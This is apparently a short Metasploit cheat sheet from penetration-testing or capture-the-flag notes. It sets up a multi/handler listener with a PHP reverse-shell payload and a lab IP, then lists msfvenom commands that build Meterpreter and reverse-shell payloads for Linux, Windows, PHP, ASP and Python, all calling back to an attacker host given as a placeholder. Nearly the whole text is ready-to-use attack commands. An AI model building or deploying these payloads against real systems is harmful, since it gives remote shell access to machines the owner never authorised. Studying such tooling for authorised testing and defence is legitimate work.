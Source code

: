 # Meterpreter runs on the target system but is not installed on it. It runs in memory and does not write itself to the disk on the target

shell

# setting

msf6 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
msf6 exploit(multi/handler) > show options

# output executable file on linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf

# Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe

# PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php

# ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp

# Python

msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
